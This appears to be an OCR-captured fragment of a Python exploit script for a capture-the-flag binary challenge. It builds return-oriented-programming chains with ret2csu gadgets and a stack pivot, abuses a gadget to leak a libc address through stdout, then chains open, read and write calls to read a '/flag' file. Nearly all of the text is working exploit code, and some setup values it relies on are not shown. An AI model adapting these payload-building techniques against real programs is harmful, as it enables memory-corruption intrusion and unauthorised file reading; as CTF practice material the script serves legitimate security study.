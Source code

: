 ```python
'''
mov     rdx, r15
mov     rsi, r14
mov     edi, r13d
call    ds:(__frame_dummy_init_array_entry - 600D90h)[r12+rbx*8]
add     rbx, 1
cmp     rbp, rbx
jnz     short loc_400940
'''
payload1 = flat([
    b'a' * 0x48,
    csu1,
    0, 1, read_got, 0, base_stage, 0x200,
    csu2,
    0, 0, base_stage - 0x8, 0, 0, 0, 0, leave_ret
])

r.send(payload1)

magic = 0x4007e8
# add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; repz ret

payload2 = flat([
    csu1,
    offset, stdout + 0x3d, 0, 0, 0, 0,
    magic,
    csu1,
    0, 1, read_got, 0, elf.bss(0x800), 0x1,
    csu2,
    0, 0, 1, stdout, 0x1, read_got, 0x8,
    csu2,
    0, 0, 1, read_got, 0, base_stage + 0x400, 0x200,
    csu2, 
    0, 0, base_stage + 0x400 - 0x8, 0, 0, 0, 0, leave_ret,
    b'/flag\x00\x00\x00' # base_stage + 39 * 8
])

r.send(payload2)
r.send(b'\x00')

libc_base = u64(r.recvuntil(b'\x7f').ljust(8,b'\x00')) - libc.sym['read']
# info(hex(libc_base))

open_addr = libc.sym['open'] + libc_base
write_addr = libc.sym['write'] + libc_base
read_addr = libc.sym['read'] + libc_base

rdi = 0x400963
rsi = libc_base + 0x2601f
rdx = libc_base + 0x142c92

payload3 = flat([
    rdi, base_stage + 40 * 8,
    rsi, 0,
    open_addr,
    rdi, 3,
    rsi, elf.bss(),
    rdx, 0x40,
    read_addr,
    rdi, 1,
    write_addr,
    0
])
```